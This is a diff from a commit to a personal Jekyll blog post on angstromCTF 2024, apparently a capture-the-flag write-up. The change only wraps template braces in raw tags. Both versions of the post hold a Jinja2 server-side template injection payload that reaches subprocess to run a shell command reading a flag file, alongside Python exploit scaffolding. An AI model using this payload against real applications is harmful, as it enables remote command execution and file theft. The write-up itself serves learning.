

Before and after one commit to jiniljeil/jiniljeil.github.io, a Jekyll site: the page built from _posts/2024-05-24-angstromCTF.md, in a window 1280 px wide and 900 px high, scrolled down 4516 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
angstromCTF

```diff
--- a/_posts/2024-05-24-angstromCTF.md
+++ b/_posts/2024-05-24-angstromCTF.md
@@ -150,7 +150,7 @@ def shout():
                 <input type="text" name="text" placeholder="Hello!">
                 <input type="submit" value="Shout your message...">
             </form>
-            <div style="color: red;">{{ error }}</div>
+            <div style="color: red;">{% raw %}{{ error }}{% endraw %}</div>
             <div>
                 Your voice echoes back: %s
             </div>
@@ -169,7 +169,7 @@ def shout():
 import random
 import requests
 
-payload = "{{ ''.__class__.mro()[1].__subclasses__()[-1]('cat /app/flag.txt',shell=True,stdout=-1).communicate() }}"
+payload = {% raw %}"{{ ''.__class__.mro()[1].__subclasses__()[-1]('cat /app/flag.txt',shell=True,stdout=-1).communicate() }}"{% endraw %}
 chars = [chr(x) for x in range(25,128)] # string.ascii_letters + string.digits
 chars = chars[:len(payload)]
 print(payload, len(payload), len(chars))
```
